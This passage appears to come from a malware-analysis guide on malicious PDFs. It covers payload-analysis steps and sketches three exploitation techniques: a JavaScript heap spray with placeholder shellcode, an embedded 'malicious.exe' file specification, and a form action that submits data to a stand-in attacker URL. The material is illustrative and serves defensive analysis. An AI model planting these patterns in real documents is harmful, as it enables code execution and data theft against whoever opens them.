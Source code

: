 ### 6. Payload Analysis

1. **Extract final payload**
   - From dropped files
   - From memory dumps
   - From network traffic

2. **Analyze payload functionality**
   - Reverse engineer executable files
   - Identify C2 communication
   - Determine malware family
   - Document capabilities and behaviors

## Common PDF Exploitation Techniques

### 1. JavaScript Exploitation

```javascript
// Example of heap spray in PDF JavaScript
function heapSpray() {
    var payload = unescape("%u4141%u4141%u4242%u4242");
    var nopSlide = unescape("%u9090%u9090%u9090%u9090");
    
    while (nopSlide.length < 0x80000) {
        nopSlide += nopSlide;
    }
    
    var heapBlocks = new Array(0x1000);
    for (var i = 0; i < heapBlocks.length; i++) {
        heapBlocks[i] = nopSlide + payload;
    }
}
```

### 2. Embedded File Execution

PDF files can contain embedded files that are executed when the document is opened:

```
/Type /Filespec
/F (malicious.exe)
/EF << /F [object_id] 0 R >>
```

### 3. Form Submission Attacks

PDF forms can be configured to automatically submit data to external servers:

```
/AcroForm << /Fields [...] /NeedAppearances true >>
/Fields [...]
/A << /S /SubmitForm /F (http://malicious.com/collect.php) >>
```
